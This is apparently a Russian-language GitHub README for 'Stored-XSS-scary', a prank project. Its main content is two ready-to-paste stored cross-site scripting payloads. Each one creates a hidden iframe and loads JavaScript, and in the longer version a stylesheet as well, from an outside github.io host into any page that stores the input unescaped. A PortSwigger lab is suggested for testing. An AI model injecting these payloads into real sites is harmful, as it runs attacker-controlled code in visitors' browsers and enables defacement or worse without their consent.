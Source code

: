 # Stored-XSS-scary

Код сработает только при наличии уязвимости хранимый XSS + если сайт не будет блокировать загрузку внешних скриптов и стилей. <br>
Для теста можно запустить лабараторку в https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded.
<br>
https://github.com/0-DAyFF13R/Stored-XSS-scary/assets/63510648/918e3044-14b0-45c1-aa3c-c795c30caf6f
<br>
------------------------------------------

Полная версия (музыка + CSS) [445 символов]:
> <script>var f=document.createElement("iframe");f.src="/css/bootstrap.min.css";document.body.appendChild(f);f.onload=function(){var s=document.createElement('script');s.src='//0-dayff13r.github.io/Stored-XSS-scary/start.js';f.contentWindow.document.head.appendChild(s);var c=document.createElement('link');c.rel='stylesheet';c.href='//0-dayff13r.github.io/Stored-XSS-scary/styles.css';document.head.appendChild(c)};f.style.display="none"</script>

<br> Сокращенная версия (только музыка) [300 символов]:
> <script>var f=document.createElement("iframe");f.src="/css/bootstrap.min.css";document.body.appendChild(f);f.onload=function(){var s=document.createElement('script');s.src='//0-dayff13r.github.io/Stored-XSS-scary/start.js';f.contentWindow.document.head.appendChild(s)};f.style.display="none"</script>
